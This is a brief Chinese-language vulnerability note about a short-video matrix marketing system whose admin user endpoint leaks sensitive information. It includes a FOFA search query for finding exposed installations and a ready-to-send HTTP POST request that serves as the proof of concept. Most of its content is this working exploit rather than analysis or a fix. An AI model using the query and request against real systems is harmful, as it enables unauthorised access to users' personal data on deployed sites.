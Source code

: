 **fofa**

```
title="短视频矩阵营销系统"
```

**一、漏洞简述**

短视频矩阵系统是一种整合多平台短视频内容发布和管理的工具，旨在通过统一的后台实现对视频素材的高效管理、编辑和分发。该系统能够支持多个社交媒体平台的账号同步，优化视频营销策略，提高品牌曝光率，并通过数据分析帮助用户深入了解受众偏好，从而提升内容创作的针对性和效果。其接口user存在敏感信息泄露漏洞，攻击者可通过该漏洞获取系统敏感信息。

二、漏洞检测poc

```yaml
POST /index.php/admin/user/index.html?page=1 HTTP/2Host: x.x.x.xUser-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36Accept-Encoding: gzip, deflateAccept: */*Content-Length: 0
```

